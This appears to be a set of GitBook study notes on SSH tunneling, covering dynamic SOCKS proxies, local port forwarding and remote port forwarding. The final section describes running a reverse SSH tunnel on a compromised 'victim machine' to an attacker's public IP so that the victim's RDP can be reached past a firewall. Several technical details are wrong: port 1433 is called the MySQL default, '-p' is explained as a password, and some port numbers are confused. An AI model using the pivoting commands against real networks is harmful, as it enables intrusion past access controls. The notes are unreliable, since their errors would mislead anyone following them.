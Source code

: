 # 5.2 SSH Tunneling

## SSH Tunneling

![](../.gitbook/assets/image%20%2875%29.png)

* Here the,
  * delivery protocol is SSH on port 22.
  * and main communication happens on port 1433 \(default MySQL port\).

## There are three ways of SSH tunneling

1. Dynamic SSH tunneling
2. Local port forwarding using SSH tunneling
3. Remote port forwarding using SSH tunneling

## Dynamic SSH tunneling

* We need to setup a SOCKS proxy,
  * We first need a **proxy server on client side**.
  * We then need to configure the other end of the communication to accept traffic.
* We then need to either configure all application configurations manually or automatically to "tell all applications to use the client side SOCKS proxy for communication". 
* So all the requests of internet are now sent to proxy.

### Dynamic SSH tunneling using SSH

```text
ssh -D 85 user@192.168.1.1
```

* The above commands configures an SSH Tunnel
  * -D bind port. Which specifies the delivery connection port.
  * one end \(local\) of the SSH tunnel is the system where the above command is executed. the other end is 192.168.1.1 using username "user".

![SSH -D option description](../.gitbook/assets/image%20%2818%29.png)

![SSH Tunneling - Dynamic](../.gitbook/assets/image%20%2855%29.png)

* Here,
  * the delivery protocol is 22 \(SSH\)
  * and main communication protocol is 844.
* Examples of dynamic SSH tunneling are
  * Psiphon
  * Tor Browser

## SSH tunneling Local Port forwarding

* Unlike Dynamic SSH proxy server we do not have to create a client side proxy server here. Infact we do not need a proxy server. All things are done by SSH tunneling itself. 
* On our client machine we will open URL _http://127.0.0.1:8080_.
* Note that 8080 = 80. Actually by 8080 we are just asking to use http service.
* This request will be internally tunneled on port 53 by configured SSH tunnel.
* We have a similar relay server which helps as communicator.

![SSH Tunneling - Local Port forwarding](../.gitbook/assets/image%20%2842%29.png)

### Example of local port forwarding

1. Remote desktop \(using vnc for ubuntu\)

## SSH Tunneling Remote Port forwarding

* Given we RDP ports are not allowed through firewall means 3389 and 2290 are blocked at firewall level.
* And given only port 53 is allowed.
* Given that the victim machine has RDP services active and running on port 3389.
* We will use SSH port tunneling technique to talk directly to the server. We do not need relay server in this kind of exploits.

### Working

* Suppose we have got access to victim machine which is inside a protect environment. The victim machine has a private IP address, so we cannot directly access RDP of machine.
* Given that in victim machine RDP service \(3389\) is running.
* We first create a reverse SSH Tunnel for tunneling port 3389 \(RDP port\). We need to run this command on the victim machine.
  * `ssh -R 7000:127.0.0.1:3389 user@212.33.40.5 -p abcd1234`
    * `abcd1234` is the password of the attacker machine
    * `212.33.40.5` is a public IP address of the attacker machine
    * `3389` is the mail communication protocol. The service is running on victim system.
    * `7000` is the port which the attacker will use to access the tunneled RDP connection.
* Once the SSH tunnel is created, a service is automatically started on the attacker machine \(note that we specified username and password of attacker machine\). 
  * `service : 0.0.0.0:7000`
* Now to access the remote console of the victim system.
  * `rdesktop 127.0.0.1:7000`

![](../.gitbook/assets/image%20%2877%29.png)



